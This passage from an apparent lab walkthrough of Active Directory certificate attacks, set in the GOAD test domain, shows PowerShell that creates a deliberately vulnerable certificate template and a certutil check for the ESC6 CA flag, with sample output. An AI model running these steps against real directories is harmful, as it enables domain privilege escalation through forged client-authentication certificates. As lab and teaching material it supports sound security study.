
### Certificate Template Creation

If you have GenericWrite on the Certificate Templates container in GOAD, create a new vulnerable template:

```bash
$templateDN = "CN=EvilTemplate,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local"

# Template with dangerous settings for GOAD environment
New-ADObject -Name "EvilTemplate" -Type "pKICertificateTemplate" -Path "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local" -OtherAttributes @{
    'flags' = 131680
    'msPKI-Certificate-Name-Flag' = 1
    'msPKI-Enrollment-Flag' = 41
    'msPKI-Minimal-Key-Size' = 2048
    'msPKI-Private-Key-Flag' = 16842752
    'msPKI-Template-Schema-Version' = 2
    'pKIDefaultKeySpec' = 1
    'pKIExpirationPeriod' = ([byte[]](0x00,0x40,0x1E,0xA4,0xE8,0x65,0xFA,0xFF))
    'pKIExtendedKeyUsage' = @('1.3.6.1.5.5.7.3.2')
    'pKIKeyUsage' = ([byte[]](0x80,0x00))
    'pKIOverlapPeriod' = ([byte[]](0x00,0x80,0xA6,0x0A,0xFF,0xDE,0xFF,0xFF))
    'revision' = 100
}

ObjectGUID                : 8f3e2a1b-9c4d-4e5f-a6b7-c8d9e0f1a2b3
DistinguishedName         : CN=EvilTemplate,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local
Name                      : EvilTemplate
ObjectClass               : pKICertificateTemplate

# Template created successfully and ready for exploitation
```

## ESC6: EDITF_ATTRIBUTESUBJECTALTNAME2

ESC6 exploits the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag on the CA, which allows SAN specification in any certificate request.

*For detailed information on this vulnerability and remediation steps, see Microsoft Learn's ["Edit vulnerable Certificate Authority setting (ESC6)"](https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-edit-vulnerable-ca-setting) article.*

### Vulnerability Check

Let's check the GOAD CA configuration. Check if flag is enabled on ESSOS-CA:

```bash
certutil -config "braavos.essos.local\ESSOS-CA" -getreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\ESSOS-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags REG_DWORD = 0x144120 (1327392)

EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144)
EDITF_ATTRIBUTEENDDATE -- 20000 (131072)
EDITF_ATTRIBUTECA -- 4000 (16384)
EDITF_IGNOREREQUESTERGROUP -- 100000 (1048576)
CertUtil: -getreg command completed successfully.

# Flag 0x40000 (EDITF_ATTRIBUTESUBJECTALTNAME2) is present!
```
